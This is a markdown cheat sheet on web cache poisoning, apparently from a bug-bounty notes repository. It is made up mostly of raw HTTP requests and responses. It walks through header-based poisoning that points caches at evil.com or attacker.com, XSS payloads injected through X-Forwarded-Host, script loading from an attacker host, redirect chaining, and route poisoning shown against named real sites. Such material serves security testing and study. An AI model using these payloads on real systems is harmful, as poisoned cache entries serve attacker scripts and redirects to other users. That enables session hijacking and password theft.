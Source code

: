 # Web Cache Poisoning

## Introduction
The objective of web cache poisoning is to send a request that causes a harmful response that gets saved in the cache and served to other users.

## Where to find
* Parameter with Cache (unkeyed)
* Header with Cache (unkeyed)
* Cookie with Cache (unkeyed)

## Impact
* Session Hijacking (Web Cache Poisoning + Host Header Injection + XSS)
* Password Steal (Web Cache Poisoning + Host Header Injection)

## How to exploit
1. Basic poisoning
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil.com/a.png" />
```
> Or you can input XSS payloads
```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>
```
The response is
```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Seizing the Cache
```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil.com
```
The response is
```
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil.com/x.js">
</script>
```

3. Selective poisoning
```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>
```
The response is
```
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

4. Chaining Unkeyed Inputs 
- First step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz
```
The response is
```
HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```
- Second step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://redacted.net
```
- Third step
```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps
```
The response is
```
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en
```

5. Route Poisoning
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil
```
The response is
```
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```
To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com
```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com
```
The response is
```
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

6. Hidden Route Poisoning
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil
```
The response is
```
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```
When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:
```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io
```
The response is
```
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```

## References
* [Portswigger](https://portswigger.net/research/practical-web-cache-poisoning)
